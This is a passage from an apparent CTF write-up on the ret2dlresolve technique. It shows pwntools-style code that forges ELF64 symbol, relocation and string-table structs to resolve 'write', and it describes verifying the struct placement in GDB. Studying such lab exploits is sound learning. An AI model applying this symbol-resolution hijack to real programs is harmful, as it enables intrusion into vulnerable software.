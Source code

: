 ```
Elf64_Sym_struct = st_name + st_info + st_other + st_shndx + st_value + st_size

r_offset = p64(0x403018)
r_info = p64((symbol_number << 32) | 0x7)
r_addend = p64(0)
Elf64_Rela_struct = r_offset + r_info + r_addend

STRTAB_struct = "write\x00\x00\x00"     # Pad to full 8 byte

print(reloc_arg)
```

Those value were got from [TSJ CTF 2022 - bacteria](https://github.com/nhtri2003gmail/CTFNote/tree/master/writeup/2022/TSJ-CTF-2022/bacteria). You can check the `symbol_number`, `reloc_arg` to see that the value is interger after the division and they have to be the integer number. 

Let's assume that we have written all the struct to the stack to the desired address. And with `print(reloc_arg)`, we can check if our struct are in the correct place or not:

![get_reloc_arg.png](images/get_reloc_arg.png)

So we get the reloc_arg equal to 632, let's check that in GDB:

![check_struct_on_stack.png](images/check_struct_on_stack.png)
